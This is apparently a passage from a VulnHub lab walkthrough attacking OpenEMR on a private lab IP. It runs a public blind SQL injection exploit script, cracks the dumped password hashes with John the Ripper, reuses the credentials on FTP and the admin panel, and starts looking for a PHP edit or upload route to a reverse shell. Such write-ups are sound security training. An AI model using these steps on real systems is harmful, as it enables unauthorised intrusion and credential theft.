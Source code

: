 ## Exploit

The script 49742.py is designed to perform an unauthenticated blind SQL injection attack, with the objective of identifying usernames and hashes by comparing sleep duration with character guesses. To execute the exploit, we must modify the variable to include the URL of our target.

```
url = "http://192.168.56.106/openemr/interface/login/validateUser.php?u="
```

Due to the blind nature of this SQL injection, it may take some time to execute.

```bash
python ./49742.py
```

![](../../assets/img/vulnhub/health3.png)

We'll simply collect the hashes and save them in a file, which we can then use John the Ripper to crack.

```
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

```bash
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords.txt hash

medical          (medical)     
ackbar           (admin)
```

Therefore, the login credentials are:

* admin:ackbar
* medical:medical

Our initial goal is to reexamine the FTP service to determine if the login credentials provide access.

* admin:ackbar doesn't work
* medical:medical works!

![](../../assets/img/vulnhub/health4.png)

We have come across some intriguing files.

* /Documents
* Passwords.txt

After finishing the enumeration of the FTP service, we log in to OpenEMR as admin:ackbar and search for potential opportunities to execute code for a reverse shell.

![](../../assets/img/vulnhub/health5.png)

Within the Administration menu, there exists a Files interface that presents the possibility of either modifying an existing .php file or exploiting the upload feature.
![](../../assets/img/vulnhub/health6.png)
